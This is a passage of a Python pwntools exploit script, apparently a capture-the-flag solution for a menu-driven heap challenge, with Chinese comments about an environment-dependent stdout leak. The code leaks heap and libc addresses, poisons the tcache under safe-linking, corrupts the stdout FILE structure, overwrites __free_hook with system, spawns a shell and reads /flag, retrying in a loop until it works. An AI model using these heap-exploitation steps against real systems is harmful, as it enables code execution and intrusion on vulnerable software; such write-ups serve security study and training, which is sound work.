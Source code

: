 ```python
		sla(b'Choice: ', b'3')

	sla(b'Choice: ', b'5')
	sla(b'Choice: ', b'1')
	sla(b'Choice: ', b'5')
	sla(b'Choice: ', b'2')

	add(b'callmecro', 0x80)
	delete(0)

	sla(b'Choice: ', b'6')
	sla(b'marry?', b'0')
	ru(b'commitment to you: ')
	heap_addr = (u64(rl().ljust(0x8, b'\x00')) ^ 0) << 12
	log.success('heap_addr: 0x%x', heap_addr)

	sla(b"groom: ", p64((heap_addr) >> 12).ljust(0x10, b'\x00'))
	sla(b"nickname: ", (b'A'*0x8).ljust(0x10, b'\x00'))
	delete(0)

	sla(b'Choice: ', b'999')
	sla(b'friends: ', b'0')
	sla(b'heart: ', p64(((heap_addr + 0x2a0) >> 12) ^ (heap_addr+0x10)))

	add(b'callmecro', 0x80)
	add(p16(0)*0x27+p16(0x7), 0x80)
	delete(2)

	add((p16(0)*2+p16(1)*2+p16(0)+p16(0)+p16(1)*26), 0x80)
	add(b'\xc0\x86', 0x2)

	add(p64(0xfbad1800) + p64(0) * 3 + b'\x00', 0x90)

	assert (b'\x7f' in r())
	for i in range(3):
		r()

    # 注意，这里利用 stdout 泄露的信息，不同环境下的内容不一样，需要做题人自己根据泄露内容进行观察分析。
    # 基本上，每次 build 得到的镜像，泄露的信息不一样，但是同一镜像每次启动，内容是一样的
    # 因此，这个地方不会因为动态 docker 而受影响
	rr(0x6af)
	libc.address = u64(rr(8)) - 0x1e14c0

	log.success("libc_addr: 0x%x", libc.address)
	add(p64(libc.sym['__free_hook']))
	add(p64(libc.sym['system']), 0x190)
	add(b'/bin/sh\x00')
	delete(8)

	sl('cat /flag')
	log.success("flag: %s", ru(b'}').decode())
	cl()

if __name__ == '__main__':
	while True:
		try:
			pwn()
			break
		except:
			cl()
			continue
```
